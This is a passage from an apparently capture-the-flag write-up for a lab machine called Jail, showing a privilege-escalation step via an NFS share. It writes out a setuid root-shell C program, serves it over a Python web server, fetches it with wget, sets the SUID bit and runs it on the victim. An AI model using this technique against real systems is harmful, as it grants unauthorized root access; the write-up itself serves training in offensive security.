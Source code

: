 > **Attacker Machine**:

```bash
docker ps -a
docker images
docker run --rm -it ubuntu:latest bash
```

> **Container**:

```bash
whoami
hostname -I
apt update
apt install python3 gcc nano -y
nano shell.c
cat shell.c 
```

> **shell.c**:

```c
#include <stdlib.h>
#include <stdio.h>

int main(){
        setreuid(1000, 1000);
        system("/bin/sh");
        return 0;
}
```

```bash
gcc shell.c -o shell -static
hostname -I
python3 -m http.server 80
```

> **Attacker Machine**:

```bash
wget http://172.17.0.2/shell
wget http://172.17.0.2/shell
chmod 4755 shell
ls -la shell
```

> **Victime Machine**:

```bash
cd /var/nfsshare
./shell
# :)
```

<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_52.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_53.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jail_writeup/Jail_54.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_55.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
